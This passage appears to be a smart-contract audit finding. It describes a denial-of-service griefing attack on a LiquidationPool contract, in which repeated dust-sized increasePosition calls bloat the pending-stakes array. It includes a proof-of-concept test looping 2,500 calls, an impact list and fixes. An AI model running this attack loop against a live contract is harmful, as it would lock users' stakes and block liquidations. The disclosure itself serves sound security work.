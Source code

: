 The griefer will make the following call enough number of times -
```js
await LiquidationPool.increasePosition(1, 0);
```

Note that for such a small value, due to rounding-down precision loss, no minting fee is charged by the protocol. So the cost of attack would be the sum of the value of all the TSTs (or EUROs) + gas fees.
<br>

Checking this via a unit test shows that the execution fails after around 2500 pending stakes on the local network. Add this test to check (took around 5 hours to execute locally on my system) which made use of TST and cost only `0.0000000000000025 euro`:
```js
    it('is possible to DoS due to huge number of pendingStakes', async () => {
      const stake1 = 1;
      await TST.mint(user1.address, ethers.utils.parseEther('1'));
      await TST.connect(user1).approve(LiquidationPool.address, ethers.utils.parseEther('1'));

      for (let i=1; i<=2500; i++) {
        console.log(i);
        await LiquidationPool.connect(user1).increasePosition(stake1, 0);
      }

    });
```

## Impact
- No new user will be able to stake in the pool by calling `increasePosition()`
- No existing user will be able to withdraw their stake by calling `decreasePosition()`
- No existing user can be liquidated by the protocol via a call to `runLiquidation()` since it internally calls `distributeAssets()` which too calls `consolidatePendingStakes()`
- No distribution of fees via `distributeFees()` possible anymore.

For all practical purposes, protocol becomes non-functional and will soon go underwater due to inability to get rid of bad debts. It is to be noted that there are no admin functions which can help delete such stakes or rescue the protocol from this state.<br>

There is also a chance that this attack be mounted by an attacker who has first taken a huge loan and upon seeing the risk of liquidation, calculates that it is cheaper to spend TSTs (or EUROs) to break the protocol instead of adding collateral to save their undercollateralized position.

## Tools Used
Manual review

## Recommendations
- One option is to have a minimum threshold for the staked amount so that the cost of the attack goes up significantly.
- Also introduce some admin functions which can be used to rescue the protocol by deleting pending stakes (by specifying a range to delete in batches instead of looping all at once), and consider returning the invested `amount - fees`.

---